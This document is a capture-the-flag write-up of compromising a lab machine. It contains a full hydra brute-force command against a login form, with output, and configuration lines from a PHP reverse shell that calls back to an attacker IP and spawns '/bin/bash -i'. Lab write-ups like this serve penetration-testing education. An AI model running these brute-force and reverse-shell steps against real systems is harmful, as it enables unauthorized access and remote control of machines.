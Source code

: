```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep
```

We can see that `/admin-dir` has been disallowed but for the robots we can definitely and check it out. 

![admin-dir](./.images/admin-dir.png)

We can see there are two files, `userid` and `credentials.txt`. We can open them and save both the files. It appears that `userid` contains a list of usernames and `credentials.txt` contains a list of passwords. We can use these files along with hydra to bruteforce login on the `/sUp3r-s3cr3t` login page. 

While trying to login with default credentials and SQLi attacks, I observed that the requests were taking me to `sUp3r-s3cr3t\authenticate.php`. Hence, we must use this path to perform the bruteforce attack.

```
tester@kali:~/Downloads/tartarus$ hydra -L userid -P credentials.txt 10.10.39.48 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-20 16:28:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1313 login tries (l:13/p:101), ~83 tries per task
[DATA] attacking http-post-form://10.10.39.48:80/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect
[80][http-post-form] host: 10.10.39.48   login: ****   password: ************
[STATUS] 1153.00 tries/min, 1153 tries in 00:01h, 160 to do in 00:01h, 16 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-20 16:29:30
```

In the above hydra command, we have used the `userid` file for bruteforcing usernames using the switch `-L` and the `credentials.txt` for passwords using the switch `-P`. For specifying that we are bruteforcing a login page, we have used `http-post-form` and passed on our authentication page's path and other parameters. The `Incorrect*` helps to filter out those requests that returned either `Incorrect username` or `Incorrect password` and we get the only correct credential pair in the output.

We can now use these credentials to login on the page.

![upload_file](./.images/upload_file.png)

Here, we can upload a file and as this is apache based we can search on the internet for `php reverse shell` files and use them to gain access to the machine. Once such file can be found [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). All we need to do is make some changes to this file and we are ready to go.

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.x.x.x';  // CHANGE THIS
$port = 9090;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;
```
